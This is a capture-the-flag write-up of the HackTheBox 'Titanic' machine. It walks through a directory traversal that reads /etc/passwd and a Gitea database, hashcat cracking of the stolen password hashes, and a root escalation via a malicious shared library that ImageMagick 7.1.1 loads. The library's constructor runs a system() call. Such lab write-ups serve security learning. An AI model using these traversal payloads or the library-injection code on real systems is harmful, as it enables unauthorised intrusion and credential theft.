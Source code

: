 - *machine* : https://app.hackthebox.com/machines/Titanic.
- *Difficulty*: Easy.
## **Introduction :**
this writeup details the process to exploit Titanic machine on HackTheBox , By enumerating services on ports 80 and 20 , we discover **Directory Traversal** vulnerability , and Gitea on a subdomain , that enable us retrieve credential for developer user , after logging in via a SSH , we found a script that uses vulnerable version of `ImageMagick` (v7.1.1) that we can exploit to escalate privilege to root.

## **Enumeration :**
1. Nmap scan : 
```Bash
└─# nmap -sS -sC -sV 10.10.11.55
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-05 12:37 EDT
Nmap scan report for titanic.htb (10.10.11.55)
Host is up (0.71s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 73:03:9c:76:eb:04:f1:fe:c9:e9:80:44:9c:7f:13:46 (ECDSA)
|_  256 d5:bd:1d:5e:9a:86:1c:eb:88:63:4d:5f:88:4b:7e:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Titanic - Book Your Ship Trip
| http-server-header: 
|   Apache/2.4.52 (Ubuntu)
|_  Werkzeug/3.0.3 Python/3.10.12
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 59.38 seconds
```
There are tow ports open  : 
- 22 (SSH)
- 80 (HTTP)

## **Initial foothold :**
#### Web on port 80 :

![](https://github.com/Mgh-Zakariae/hackthebox-writeups/blob/2f3cc9ed0aaed3a050e6f451f0440268a838b027/images/1.png)

checking http://titanic.htb/ , we found a simple website. One interesting part from website is `/book`  which returns a JSON file after filling out a form , by Burp Suite we discover redirection to `/download?ticket=a_id.JSON` .
### Directory Traversal :
- By testing **Directory Traversal** by replacing `a_id.json` with `../../../etc/passwd` , it allows us to read the content of `/etc/passwd` from the server. 
- form  `/etc/passwd`, we found a user developer , and also by reading file `/etc/hosts` (or using any tool like `Gobuster` , `ffuf`) we found a subdomain `dev.titanic.htb`

```bash 
└─# gobuster dns -d titanic.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Domain:     titanic.htb
[+] Threads:    10
[+] Timeout:    1s
[+] Wordlist:   /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt
===============================================================
Starting gobuster in DNS enumeration mode
===============================================================
Found: dev.titanic.htb

```
![](https://github.com/Mgh-Zakariae/hackthebox-writeups/blob/2f3cc9ed0aaed3a050e6f451f0440268a838b027/images/2.png)
### Subdomain enumeration :

![](https://github.com/Mgh-Zakariae/hackthebox-writeups/blob/2f3cc9ed0aaed3a050e6f451f0440268a838b027/images/3.png)

- checking `http://dev.titanic.htb/` , we found Gitea page .
- in Gitea , there are tow repositories `docker-config` and `flash-app` .
- Reading their content, we didn't find anything interesting in the `flask-app` repository , but `docker-config` reveals Gitea is running in Docker container and store the data in `/home/developer/gitea/data` .

![](https://github.com/Mgh-Zakariae/hackthebox-writeups/blob/2f3cc9ed0aaed3a050e6f451f0440268a838b027/images/4.png)
- now we can try to exploit this to read data files. 

### Extract Gitea database : 

- by reading documentations of Gitea and some research  , we know that data is stored in the SQLite file `gitea.db` and the file is stored in `/data/gitea` inside the container. 
- Gitea stores its SQLite database in `/data/gitea/gitea.db` , and contain mount  `/home/developer/gitea/data:/data` , That means anything in the container's `/data` path will be mirrored to your host's `/home/developer/gitea/data`.
- so the finally path that we use to read data by exploit Directory Traversal vulnerability is `/home/developer/gitea/data/gitea/gitea.db`
- by visiting http://titanic.htb/download?ticket=/home/developer/gitea/data/gitea/gitea.db we can save the file locally 
- open `gitea.db` in SQLite 
```bash
└─# sqlite3 gitea.db          
SQLite version 3.46.1 2024-08-13 09:16:08
Enter ".help" for usage hints.
sqlite> .tables
access                     oauth2_grant             
access_token               org_user                 
...
.....
```

- we found a table user containing hashed password , salt , email and also algorithm that used for hashing
### Cracking the passwords :

- we can use `hashcat` tool to crack the password.
- first we need to convert them to base64 by using this [script](https://github.com/Mgh-Zakariae/hackthebox-writeups/blob/2f3cc9ed0aaed3a050e6f451f0440268a838b027/titanic_machine/hashcat_forma_PBKDF2.py)
- create a file named `hashes.txt` with hash and salt with the format `sha256:50000:salt:hash`
- the run `hashcat` to find plaintext password for developer : `hashcat.exe -m 10900 -a 0 hashes.txt rockyou.txt`
### developer shell : 

- now , we can login in via SSH.
```bash 
└─# ssh developer@10.10.11.55
```

- we can find user flag by reading file `/home/developer/user.txt`
## **Privilege escalation :** 
- `sudo -l` shows that the developer user does not have `sudo` privilege, also  there are no SUID binaries that we can exploit.
- in `/opt/scripts` ,we find a script `identify_images.sh ` which runs a vulnerable version of `ImageMagick`  
- `ImageMagick 7.1.1` is vulnerable to arbitrary code execution (you can find a exploitation in google)
- Also this script is owned by root and runs in Cronjob - I know this by looking at the creation date of metadata.log file.
#### exploitation :

- Create a shared library in the current working directory ( `/opt/app/static/assets/images` )

```bash 
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF  
#include <stdio.h>  
#include <stdlib.h>  
__attribute__((constructor)) void init(){  
system("cat /root/root.txt > /tmp/root.txt");  
exit(0);  
}  
EOF
```

- once `ImageMagick` process this malicious file , it executes a malicious code and copies `root.txt` to `/tmp/root.txt.`

>but first thing you can do is run the command `ls /root > /tmp/root.txt` to see what files are in this directory. Also we can include a reverse shell. 




